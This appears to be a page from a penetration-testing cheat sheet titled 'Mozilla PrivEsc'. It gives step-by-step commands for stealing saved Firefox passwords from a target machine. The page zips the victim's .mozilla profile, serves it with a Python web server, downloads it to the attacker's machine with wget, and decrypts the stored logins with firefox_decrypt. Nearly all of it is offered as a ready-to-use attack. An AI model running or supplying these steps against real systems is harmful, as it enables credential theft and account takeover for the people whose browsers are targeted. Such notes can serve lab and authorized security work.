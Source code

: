 ```yaml
---
title: Mozilla PrivEsc
desc:
tags: [Firefox, Linux, Mozilla, PrivEsc, Privilege]
alts: []
render_with_liquid: true
---
```


## Extract Passwords from Firefox Profile

First, zip **.mozilla** directory in target machine, and open web server to transfer the zip file to local machine.

```sh
zip -r /tmp/mozilla.zip ./.mozilla
cd /tmp
python3 -m http.server 8000
```

In local machine, download the zip file from the target machine, and unzip it.

```sh
wget http://<target-ip>:8000/mozilla.zip
unzip mozilla.zip
```

To crack the profile of Firefox, use **[firefox_decrypt](https://github.com/unode/firefox_decrypt){:target="_blank"}**.

```sh
python3 firefox_decrypt.py .mozilla/firefox/<id>.default-release
```